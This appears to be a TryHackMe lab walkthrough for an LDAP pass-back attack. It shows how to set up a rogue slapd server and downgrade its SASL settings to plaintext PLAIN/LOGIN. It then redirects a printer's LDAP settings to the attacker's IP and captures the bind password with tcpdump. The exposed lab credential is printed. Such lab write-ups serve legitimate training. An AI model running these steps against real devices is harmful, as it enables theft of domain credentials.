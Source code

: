 # Perform LDAP Pass Back with Rogue LDAP Server


```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

Configuration of the LDAP Server: 
```
sudo dpkg-reconfigure -p low slapd
```

![image](https://user-images.githubusercontent.com/97956863/231549315-b8217585-523e-4f32-b296-81616c29b3c5.png)

Provide the targeted domain 
![image](https://user-images.githubusercontent.com/97956863/231549375-bbf2317d-71d1-494c-b8a2-de0477d33ec6.png)

![image](https://user-images.githubusercontent.com/97956863/231549473-76f36c6d-6dc9-4f86-a236-22feaf534217.png)

![image](https://user-images.githubusercontent.com/97956863/231549889-8d492cde-5c27-4f43-9bd7-2d216828a54c.png)

![image](https://user-images.githubusercontent.com/97956863/231549924-f5df1ecf-1b5e-4a3f-a5cc-cf7205111b4b.png)

![image](https://user-images.githubusercontent.com/97956863/231549949-6453268e-757d-4355-afa2-6784a1d655c2.png)

# Making it vulnerable by downgrading it to support PLAIN & LOGIN !

```
nano olcSaslSecProps.ldif 
```

```
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

<ul> 
  <li>olcSaslSecProps: Specifies the SASL security properties <br>
  <li>noanonymous: Disables mechanisms that support anonymous login <br>
  <li>minssf: Specifies the minimum acceptable security strength with 0, meaning no protection. <br>
</ul>



# Patch LDAP Server

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
Check new config :
```
┌──(root㉿kali)-[~]
└─# ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN

```


# Capturing LDAP Creds (TryHackMe example with printer.za.tryhackme.com)

Changing server to the tun0 ip address : 10.50.26.19 
Then click save

![image](https://user-images.githubusercontent.com/97956863/231569418-d86a2329-a712-4f07-96b9-add6f33a74a6.png)

Before clicking Test on kali :

```
sudo tcpdump -SX -i breachad tcp port 389

```

Click Test !!

![image](https://user-images.githubusercontent.com/97956863/231570152-26fc6cd4-773d-4e18-b4b7-42516d716de7.png)


As we can see the password in the middle of the screen : tryhackmeldappass1@


Credit : TryHackMe
